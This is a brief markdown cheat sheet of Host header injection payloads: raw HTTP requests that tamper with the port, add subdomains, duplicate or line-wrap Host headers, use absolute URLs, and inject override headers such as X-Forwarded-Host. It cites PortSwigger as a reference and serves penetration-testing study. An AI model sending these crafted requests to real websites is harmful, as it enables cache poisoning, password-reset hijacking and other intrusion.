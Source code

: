 - [Host_Header_Injection](#Host Header Injection)

#Host Header Injection

#### Malicious port
```
GET /example HTTP/1.1
Host: vulnerable-website.com:bad-stuff-here
```

#### Malicious subdomain
```
GET /example HTTP/1.1
Host: hacked-subdomain.vulnerable-website.com
```

#### Duplicate Host headers
```
GET /example HTTP/1.1
Host: vulnerable-website.com
Host: bad-stuff-here
```

#### Absolute URL
```
GET https://vulnerable-website.com/ HTTP/1.1
Host: bad-stuff-here
```

#### Line wrapping
```
GET /example HTTP/1.1
 Host: bad-stuff-here
Host: vulnerable-website.com
```

#### Inject headers
```
GET /example HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-Host: bad-stuff-here

X-Host
X-Forwarded-Server
X-HTTP-Host-Override
Forwarded
```

References
- https://portswigger.net/web-security/host-header
